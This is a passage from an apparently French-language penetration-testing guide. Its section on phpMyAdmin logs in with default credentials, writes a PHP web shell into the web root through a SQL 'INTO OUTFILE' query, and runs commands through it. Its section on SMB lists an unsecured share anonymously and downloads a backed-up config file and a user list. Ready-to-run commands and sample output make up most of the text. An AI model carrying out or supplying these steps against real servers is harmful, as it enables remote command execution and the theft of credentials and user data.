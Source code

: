#### 5. Exploitation de vulnérabilités d'applications

**Commande pour exploiter une vulnérabilité dans phpMyAdmin :**
```bash
curl -s -X POST "http://192.168.1.10/phpmyadmin/index.php" \
  -d "pma_username=admin&pma_password=admin&server=1&target=index.php&lang=en&token=" \
  -c cookies.txt

curl -s -b cookies.txt "http://192.168.1.10/phpmyadmin/import.php?db=mysql" > import_page.html

curl -s -X POST -b cookies.txt "http://192.168.1.10/phpmyadmin/import.php" \
  -F "import_type=server" \
  -F "format=sql" \
  -F "import_file=@shell.php;filename=shell.php" \
  -F "sql_query=SELECT '<?php system(\$_GET[\"cmd\"]); ?>' INTO OUTFILE '/var/www/html/shell.php'"

curl -s "http://192.168.1.10/shell.php?cmd=id"
```

**Sortie typique :**
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Analyse :** Cette séquence de commandes exploite une vulnérabilité dans phpMyAdmin pour écrire un fichier PHP malveillant sur le serveur web. L'attaque commence par s'authentifier à phpMyAdmin, puis utilise la fonctionnalité d'importation SQL pour exécuter une requête qui écrit un shell PHP dans le répertoire web. Enfin, le shell est appelé avec la commande "id" pour vérifier qu'il fonctionne correctement. Cette vulnérabilité permet à un attaquant d'exécuter des commandes arbitraires sur le serveur avec les privilèges de l'utilisateur du serveur web.

#### 6. Exploitation de vulnérabilités de configuration

**Commande pour exploiter un partage SMB mal configuré :**
```bash
smbclient -L //192.168.1.10 -N
smbclient //192.168.1.10/backup -N
```

**Sortie typique :**
```
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
public          Disk      Public Share
backup          Disk      Backup Files
IPC$            IPC       IPC Service (Samba, Ubuntu)
SMB1 disabled -- no workgroup available

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Apr  2 19:20:00 2025
  ..                                  D        0  Wed Apr  2 19:20:00 2025
  backup-2025-04-01.sql               N  8765432  Tue Apr  1 02:00:00 2025
  config.php.bak                      N     1234  Mon Mar 31 15:45:00 2025
  users.csv                           N     5678  Tue Apr  1 10:30:00 2025

                7779096 blocks of size 1024. 5369948 blocks available
smb: \> get config.php.bak
getting file \config.php.bak of size 1234 as config.php.bak (151.1 KiloBytes/sec) (average 151.1 KiloBytes/sec)
smb: \> get users.csv
getting file \users.csv of size 5678 as users.csv (694.6 KiloBytes/sec) (average 422.9 KiloBytes/sec)
smb: \> exit

$ cat config.php.bak
```